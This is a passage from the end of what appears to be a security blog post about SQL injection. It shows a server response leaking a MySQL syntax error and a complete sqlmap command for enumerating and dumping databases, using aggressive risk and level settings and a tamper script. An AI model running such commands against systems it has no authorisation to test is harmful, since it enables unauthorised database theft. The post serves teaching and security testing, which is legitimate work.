 ```http
```

### Response

```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Set-Cookie: blah...blah...blah...; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
  "code": 400,
  "message": "ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ' '*'' at line 1"
}
```

The server responds with an error message indicating a SQL syntax error. This suggests that the application is using a MySQL database. Further exploitation can be automated using SQLMAP.

## SQLMAP Automation

```bash
python .\sqlmap\sqlmap.py -r "request.txt" --batch --dbs --risk 3 --level 4 --random-agent --tamper=between --proxy=http://127.0.0.1:8080
```

### Dumping Database

![image](/assets/images/blogs/MA_SQLi/db.png)

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).